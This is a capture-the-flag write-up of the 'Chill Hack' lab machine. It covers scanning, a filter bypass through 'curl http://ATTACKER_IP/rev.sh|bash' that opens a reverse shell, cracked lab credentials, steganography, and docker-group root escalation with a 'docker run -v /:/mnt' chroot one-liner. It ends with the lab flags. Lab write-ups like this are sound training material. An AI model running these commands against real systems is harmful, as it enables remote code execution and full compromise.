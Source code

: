 # Chill Hack
(Flags are at the end of this write up)

### Investigate!
Initial scan shows port 21,22 and 80 open: 

Nmap scan report for 10.10.234.14
Host is up (0.058s latency).                                                 
                                                                             
    PORT   STATE SERVICE VERSION                                                 
    21/tcp open  ftp     vsftpd 3.0.3                                            
    | ftp-syst:                                                                  
    |   STAT:                                                                    
    | FTP server status:                                                         
    |      Connected to ::ffff:10.14.90.188                                      
    |      Logged in as ftp                                                      
    |      TYPE: ASCII                                                           
    |      No session bandwidth limit                                            
    |      Session timeout in seconds is 300                                     
    |      Control connection is plain text                                      
    |      Data connections will be plain text                                   
    |      At session startup, client count was 2                                
    |      vsFTPd 3.0.3 - secure, fast, stable                                   
    |_End of status                                                              
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)                       
    |_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt           
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                         
    | ssh-hostkey:                                                               
    |   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)               
    |   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
    |_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Game Info
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

The ftp server contains the following note:<br />
![image](https://github.com/user-attachments/assets/4f8fa8bc-bcf5-4fd1-822a-9d3d8dd156ff)<br />
Directory enumeration reveals a `/secret` directory:<br />
![image](https://github.com/user-attachments/assets/822e6da3-2aa7-4d16-88a5-2b4946036515)<br />
There's a filter that won't allow me to run commands such as `ls` or `nc`. However I found a way to spawn a reverse shell. The `curl` command is not filtered. So create a `rev.sh` containing the code for a reverse shell, then open a netcat listener (I used port 4444),
and then run the command `curl http://ATTACKER_IP/rev.sh|bash`<br />
![image](https://github.com/user-attachments/assets/f4227d70-02b3-4338-8e8d-fe8d3afef683)<br />
Inside `/var/www/files/index.php`, I found a set of credentials:<br />
![image](https://github.com/user-attachments/assets/bbe00638-77db-4130-8cd1-22e48b59e7a6)<br />
root:!@m+her00+@db<br />
There are two hashes inside this database:<br />
![image](https://github.com/user-attachments/assets/a238661c-35c4-4d51-90f1-a43706357704)<br />
These passwords are respectively:<br />
`masterpassword`<br />
`dontaskdonttell`<br />
For now these passwords don't seem to be useful. I then found another local web server on port 9001, hosted in `/var/www/files` and found a hint inside `/var/www/files/hacker.php`:<br />
![image](https://github.com/user-attachments/assets/2e4dfbf7-70ee-4017-8f5d-883fb86204fc)<br />
So I thought that maybe some hidden information might be inside one of these two files inside `/images/`:<br />
![image](https://github.com/user-attachments/assets/a48a280d-0120-4f19-878f-68f9f7a0a0cb)<br />
So I transfered the hacker image to my kali machine using netcat, and called it `hacker.jpg`. Then I downloaded [this tool](https://www.kali.org/tools/steghide/) to extract information embedded inside images.<br />
![image](https://github.com/user-attachments/assets/5314d775-fe76-49a4-be0e-02359554a817)<br />
Providing an empty passphrase was enough to extract a `backup.zip` file. However this zip file is encrypted:<br />
![image](https://github.com/user-attachments/assets/cc198342-05dd-4e07-b0a3-11b5ac097d32)<br />
To try and crack it, I use john:<br />
![image](https://github.com/user-attachments/assets/d6471bf0-11eb-41d1-8531-521a8ba382aa)<br />
So I unzipped the file and got a file called `source_code.php`. It contains a base64 encoded password:<br />
![image](https://github.com/user-attachments/assets/6fed5429-1360-42a0-8b46-b74e29c1149b)<br />
The decoded password is `!d0ntKn0wmYp@ssw0rd`. <br />
With this password, I was able to log into `anurodh`'s account using ssh. <br />
Linpeas gives me this output:<br />
![image](https://github.com/user-attachments/assets/fd331ba9-fcba-4e1e-b09c-1482d36182a2)<br />
This means that anurodh is part of the `docker` group. The docker group can obtain root privileges on the machine. This is because the daemon `dockerd` requires root privileges to execute. The docker user(and group) can execute the `docker` command, which can be used to run containers that can access the entire file system. <br />
To exploit this, run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`. This will spawn a shell as root.
![image](https://github.com/user-attachments/assets/e8da73d7-65a1-4540-8c26-942a54763a2f)<br />
I asked chatGPT to generate a command to exploit this,but let's break down this command:<br />
- `docker run`: It creates a temporary environment using an image (in this case, alpine). Alpine is a minimal Linux distribution that is very lightweight
- `-v /:/mnt`: This mounts the entire root filesystem of the host (/) into the container at /mnt
- `--rm`: This flag ensures that the container is automatically removed after it stops.
- `-it`: -i: Keeps the container's standard input open so you can interact with it. -t: Allocates a pseudo-terminal for the container, making it behave like an interactive shell.
- `alpine`: This specifies the Docker image to use.
- `chroot /mnt sh`: This is the command executed inside the container. `chroot`: Changes the apparent root directory (/) for the container to the directory `/mnt`.
Since `/mnt` is mounted to the host's root filesystem, this effectively means the container's root environment now "becomes" the host's filesystem.
`sh`: Starts a shell session within the new root environment.<br />

- User flag: `{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`
- Root flag: `{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}`
